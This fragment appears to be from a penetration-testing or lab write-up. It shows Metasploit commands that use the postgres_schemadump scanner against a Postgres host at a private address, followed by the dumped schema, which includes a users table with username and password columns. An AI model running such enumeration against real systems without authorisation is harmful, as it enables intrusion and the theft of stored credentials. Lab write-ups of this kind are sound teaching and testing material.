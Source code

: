 ## Time to get to that Postgres DB

In msfconfig

- `search postgres`
- `use auxiliary/scanner/postgres/postgres_schemadump` - Postgres Schema Dump exploit
- set rhosts
- `exploit`:

```console
Host: 172.28.101.51 
 Port: 5432 
 ====================

---
- DBName: postgres
  Tables:
  - TableName: users_id_seq
    Columns:
    - ColumnName: last_value
      ColumnType: int8
      ColumnLength: '8'
    - ColumnName: log_cnt
      ColumnType: int8
      ColumnLength: '8'
    - ColumnName: is_called
      ColumnType: bool
      ColumnLength: '1'
  - TableName: users
    Columns:
    - ColumnName: id
      ColumnType: int4
      ColumnLength: '4'
    - ColumnName: username
      ColumnType: varchar
      ColumnLength: "-1"
    - ColumnName: password
      ColumnType: varchar
      ColumnLength: "-1"
    - ColumnName: created_at
      ColumnType: timestamp
      ColumnLength: '8'
    - ColumnName: deleted_at
      ColumnType: timestamp
      ColumnLength: '8'
  - TableName: users_pkey
    Columns:
    - ColumnName: id
      ColumnType: int4
      ColumnLength: '4'
```
